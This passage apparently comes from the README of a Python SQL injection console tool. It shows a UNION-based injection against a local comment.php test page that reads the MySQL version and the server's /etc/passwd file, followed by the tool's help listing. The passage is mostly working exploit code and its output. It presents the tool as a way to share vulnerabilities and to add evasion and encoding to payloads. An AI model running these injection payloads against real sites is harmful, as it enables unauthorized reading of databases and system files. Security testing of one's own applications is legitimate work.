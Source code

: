 ```
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
mysql:x:999:999::/home/mysql:/bin/sh
```

The progress indicator give us an indication of the speed of the process.

Nice, we don't have to rewrite all this code every time!

### 5 Extract some value

Now, lets exploit another vulnerabily, we have an injection that display the output of the query on a field.

```
>>> rb = lambda payload : requests.get('http://127.0.0.1:8181/comment.php', params={'id': '1 {}'.format(payload), 'log': '1'})
>>> usf = UnionStringFinder('AND 1=0 UNION ALL SELECT 1,2,{}', rb, StarExtract('<h2>2</h2><p>*</p>'))
>>> print(usf.read_string('(SELECT version())'))
5.7.11-log
>>> print(usf.read_file('/etc/passwd'))
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
 ...
```

What have we do? 
* We create a request builder that add a payload after our index.
* We create a UnionStringFinder, that will extract exactly the info that we want.
* The StarExtract will get the first pattern that match his expression and display only the value on the '*'

The benefit is: 
* When we discover the vuln, 2 lines of code are suffisient to share the vuln with the team or publish them.
* We can add all logic that we want (evasion, encoding, ...) the only limit is the python language.
* We can use the output to build more complex exploit.

## More help

This is just an example, if you want more help, see the message displayed when the console launch :

```
To get help, type help(object) with object the following : Tester, BlindStringFinder, UnionStringFinder, BlindTester, SqliEncoder, DbDumper, HasText, Not, loop, StarExtract

Type dir() to see all availables types and try help(<type>) to search other help
```

Lets try  :

```
>>> dir()
['BlindStringFinder', 'BlindTester', 'DbDumper', 'HasText', 'ManualLoop', 'MssqlPayloads', 'MysqlPayloads', 'Not', 'SqliEncoder', 'StarExtract', 'UnionStringFinder', '__annotations__', '__builtins__', '__cached__', '__doc__', '__loader__', '__name__', '__package__', '__spec__', 'colored', 'loop', 'rb', 'requests', 'sf', 'tester', 'usf']
>>> help(SqliEncoder)
```

